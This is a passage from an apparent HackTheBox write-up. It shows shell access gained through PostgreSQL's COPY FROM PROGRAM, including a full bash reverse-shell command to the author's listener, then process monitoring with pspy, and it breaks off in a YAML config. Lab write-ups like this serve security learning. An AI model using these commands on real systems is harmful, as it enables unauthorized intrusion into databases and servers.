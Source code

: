 Following the instructions provided in the blog, I initiated the process by creating a table named "cmd_shell":

```sql
CREATE TABLE cmd_shell(output text);
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/5d2639b5-4289-4bb7-a482-4a8564da63f1)

With the table successfully created, I proceeded to utilize the PROGRAM parameter to execute a shell command, effectively initiating a connection to my netcat listener:

```sql
COPY cmd_shell FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/10.10.14.128/53 0>&1\"'
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e43c89f6-ea05-4b96-ab18-9d3b0ab648c4)

Despite encountering a 504 error in the response, I received a connection in my netcat listener, achieving a shell as the "postgres" user:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/0f67d88d-8049-422c-a453-983261f7e5bc)

With initial access achieved, my next objective was to obtain the user flag, which I currently lacked the necessary privileges to access.

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## User.txt:

Upon examining the home directory, two users stood out: Jovian and Juno. However, I lacked the required permissions to access the directories of either user. To overcome this limitation, I performed manual enumeration and uploaded the PSPY binary to monitor running processes.

While executing as the "postgres" user, whose UID was 114, I shifted my focus to the user with UID 1000, Juno:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/77c13e35-9dca-4578-9d29-639a47099def)

As the PSPY binary ran, my attention was drawn to a file named "**network-simulation.yml**," executing with Juno's privileges from the path /dev/shm:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/9ba76068-1e49-4253-90a0-811d13dc82ab)

Although I had read and write privileges for the file, its execution permission was lacking. However, I noticed it was invoked by a parent file "/bin/bash /home/juno/shadow-simulation.sh":

Upon examining the contents of the YAML file, I found:

```YAML
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
```